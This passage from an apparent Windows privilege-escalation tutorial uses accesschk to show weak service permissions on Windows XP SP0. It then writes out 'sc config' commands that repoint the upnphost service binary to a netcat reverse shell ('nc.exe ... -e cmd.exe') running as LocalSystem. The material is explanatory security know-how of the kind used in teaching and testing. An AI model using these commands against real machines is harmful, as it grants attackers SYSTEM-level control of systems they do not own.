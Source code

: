 Accesschk can automatically check if we have write access to a Windows service with a certain user level. Generally as a low privilege user we will want to check for "Authenticated Users". Make sure to check which user groups you user belongs to, "Power Users" for example is considered a low privilege user group (though it is not widely used).

Lets compare the output on Windows 8 and on Windows XP SP0.

**# This is on Windows 8.**C:\Users\b33f\tools\Sysinternals> accesschk.exe -uwcqv "Authenticated Users" *No matching objects found.**# On a default Windows XP SP0 we can see there is a pretty big security fail.**C:\> accesschk.exe -uwcqv "Authenticated Users" *RW SSDPSRV

SERVICE_ALL_ACCESS
RW upnphost
SERVICE_ALL_ACCESSC:\> accesschk.exe -ucqv SSDPSRVSSDPSRV
RW NT AUTHORITY\SYSTEM
SERVICE_ALL_ACCESS
RW BUILTIN\Administrators
SERVICE_ALL_ACCESS
RW NT AUTHORITY\Authenticated Users
SERVICE_ALL_ACCESS
RW BUILTIN\Power Users
SERVICE_ALL_ACCESS
RW NT AUTHORITY\LOCAL SERVICE
SERVICE_ALL_ACCESSC:\> accesschk.exe -ucqv upnphostupnphost
RW NT AUTHORITY\SYSTEM
SERVICE_ALL_ACCESS
RW BUILTIN\Administrators
SERVICE_ALL_ACCESS
RW NT AUTHORITY\Authenticated Users
SERVICE_ALL_ACCESS
RW BUILTIN\Power Users
SERVICE_ALL_ACCESS
RW NT AUTHORITY\LOCAL SERVICE
SERVICE_ALL_ACCESS

This issue was later resolved with the introduction of XP SP2, however on SP0&SP1 it can be used as a universal local privilege escalation vulnerability. By reconfiguring the service we can let it run any binary of our choosing with SYSTEM level privileges.

Let's have a look how this is done in practise. In this case the service will execute netcat and open a reverse shell with SYSTEM level privileges. Other options are certainly possible.

C:\> sc qc upnphost[SC] GetServiceConfig SUCCESS
SERVICE_NAME: upnphost
TYPE : 20 WIN32_SHARE_PROCESS
START_TYPE : 3 DEMAND_START
ERROR_CONTROL : 1 NORMAL
BINARY_PATH_NAME : C:\WINDOWS\System32\svchost.exe -k LocalService
LOAD_ORDER_GROUP :
TAG : 0
DISPLAY_NAME : Universal Plug and Play Device Host
DEPENDENCIES : SSDPSRV

SERVICE_START_NAME : NT AUTHORITY\LocalServiceC:\> sc config upnphost binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"[SC] ChangeServiceConfig SUCCESSC:\> sc config upnphost obj= ".\LocalSystem" password= ""[SC] ChangeServiceConfig SUCCESSC:\> sc qc upnphost[SC] GetServiceConfig SUCCESS

